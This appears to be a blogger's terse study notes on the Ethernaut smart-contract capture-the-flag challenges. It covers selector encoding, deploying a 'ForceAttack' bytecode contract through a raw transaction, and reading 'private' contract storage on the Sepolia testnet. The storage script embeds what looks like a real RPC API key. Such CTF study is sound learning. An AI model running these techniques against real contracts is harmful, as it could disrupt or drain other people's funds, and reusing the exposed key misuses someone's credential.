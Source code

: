 ```yaml
---
author: "Simon"
title: "Ethereum Naut"
date: 2024-03-01T22:16:01+08:00
description: "ethereum naut "
tags: ["solidity"]
ShowToc: false
ShowBreadCrumbs: false
---
```


https://github.com/crytic/slither
https://quillaudits.medium.com/

https://solidity-by-example.org/hacks/accessing-private-data/
https://docs.soliditylang.org/en/v0.8.11/internals/layout_in_storage.html#
https://fisco-bcos-documentation.readthedocs.io/zh-cn/latest/docs/articles/3_features/35_contract/solidity_operation_principle.html

### 1. Fallback

### 2. 同名 constructor

### 3. block.number

### 4. msg.origin msg.sender

### 5. math

### 6. delegateCall

> 1. get function prototype

```
function withdraw(uint withdraw_amount) public;
    -> withdraw(uint256)



    pay(uint256,uint256,uint256,bytes32,bytes32,uint8,bytes32,bytes32,address)

```

> 2. get fun selector , and set params

```

const method = Web3.utils.sha3("pwn()").slice(0, 10);
> web3.utils.sha3("withdraw(uint256)");
'0x2e1a7d4d 13322e7b96f9a57413e1525c250fb7a9021cf91d1540d5b69f16a49f'
> withdraw_amount = web3.utils.toWei(0.01, "ether");
'10000000000000000'
> withdraw_amount_hex = web3.utils.toHex(withdraw_amount);
'0x2386f26fc10000'

withdraw_amount_hex.slice(2).padStart(64, "0");
//  (padded to 32 bytes):
2e1a7d4d 000000000000000000000000000000000000000000000000002386f26fc10000
```

### 7. deploy contract

```
// solc --bin ForceAttack.sol
<!-- get bytecode -->
// data =  bytecode + encoded parma
await sendTransaction({
    from: player,
    to: 0,
    data: '60806040526040516100c13803806100c1833981810160405281019060239190604f565b8073ffffffffffffffffffffffffffffffffffffffff16ff5b60008151905060498160ac565b92915050565b600060208284031215606257606160a7565b5b6000606e84828501603c565b91505092915050565b60006080826087565b9050919050565b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b600080fd5b60b3816077565b811460bd57600080fd5b5056fe000000000000000000000000dcf00b70aae75046de7063e10f55f5aa82ec4f01'
});
```

### 8, storage

single 32-byte slot, 2\*\*256 slots

```
uint8    => 1 byte
uint16   => 2 bytes and so on
uint256  => 32 bytes
bool     => 1 byte
address  => 20 byte
bytes1   => 1 byte
bytes2   => 2 bytes and so on
```

```javascript
const rpc_url =
  "https://eth-sepolia.g.alchemy.com/v2/ifhAyycQf9EQGFKGb7bkZKpVf-wGX3Z9"; //add your rpc_url here
const provider = new ethers.JsonRpcProvider(rpc_url);
const contract_address = "0x3c28d43ed4805B60D3Ae58CEF75C13c557475B94"; //add contract address here
const slot = 1; // add the storage slot of contract you want to access
const data = await provider.getStorage(contract_address, slot);
console.log("Private Data :", data);
```

### 9.transfer check fallback

### 10.Re-entrancy

